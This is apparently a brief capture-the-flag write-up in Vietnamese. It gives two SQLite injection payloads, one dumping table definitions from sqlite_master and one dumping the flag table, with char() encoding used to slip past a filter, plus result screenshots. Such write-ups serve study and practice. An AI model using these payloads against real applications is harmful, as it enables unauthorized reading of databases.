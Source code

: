 # Solution

Payload để dump các statement:

`(select char(0x4d,0x53,0x47,0x2d) || sql as msg from sqlite_master)`

![dump_statement](https://user-images.githubusercontent.com/77546253/174476235-25fd8104-cec6-4a4e-9d6a-8931e74d4f0a.png)


Payload để dump flag:

`(select REPLACE(char(0x4d,0x53,0x47,0x2d)||flag,char(0x4b),char(0x76)) msg from flag)`

![flag](https://user-images.githubusercontent.com/77546253/174476241-4840434d-8e6a-493f-b354-ac6bdd43af01.png)
